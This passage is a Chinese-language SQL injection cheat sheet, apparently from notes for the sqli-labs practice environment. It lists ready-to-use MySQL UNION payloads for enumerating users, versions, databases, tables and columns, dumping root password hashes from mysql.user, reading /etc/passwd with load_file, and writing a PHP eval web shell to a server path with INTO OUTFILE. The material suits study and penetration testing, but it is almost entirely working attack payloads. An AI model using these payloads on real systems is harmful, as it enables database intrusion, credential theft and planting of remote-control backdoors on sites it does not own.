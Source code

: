   ascii（substr（user（），1，1））=101#

- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

### 9. SQL注入备忘

#### SQL注入常用命令

- 查看当前用户：union select 1,(select user())--+

- 查看数据库版本：union select 1,(select version())--+

- 查看当前数据库名：union select 1,(select database())--+

- 查看操作系统union select 1,(select @@version_compile_os)--+

- 所有用户：

  - union select 1,(select group_concat(user) from mysql.user)--

    +

- 用户hash

  - union select 1,(select group_concat(password) from mysql.user where user='root')

- 查看所有数据库名

  - union select 1,(SELECT group_concat(schema_name) from information_schema.schemata)--+

- 查看某一个库的全部表

  - union select 1,(SELECT group_concat(table_name) from information_schema.tables where table_schema='库名')--+
  - union select 1,(SELECT group_concat(table_name) from information_schema.table_constraints where table_schema='库名'

- 查看某个表的字段名

  - union select 1,(SELECT group_concat(column_name) from information_schema.columns where table_name='表名')--+

- 查看某个库中某个表的字段名

  - union select 1,(select group_concat(column_name) from information_schema.columns where table_name='表名' and table_schema='库名')--+

- 读文件

  - union select 1,(SELECT load_file('/etc/passwd'))--+

- 写文件

  - union select 1,'<?php @eval($_POST[360]);?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-8\\3.php'--+

#### UNION注入

- 猜字段长度
  - order by 数字     uname=1' order by 2
- 暴字段位置
  - union select 1,2      uname=1' union select 1,2
- 在指定表中查询制指定用户的密码
  - union SELECT 1,password from 表 where username='用户名'--+

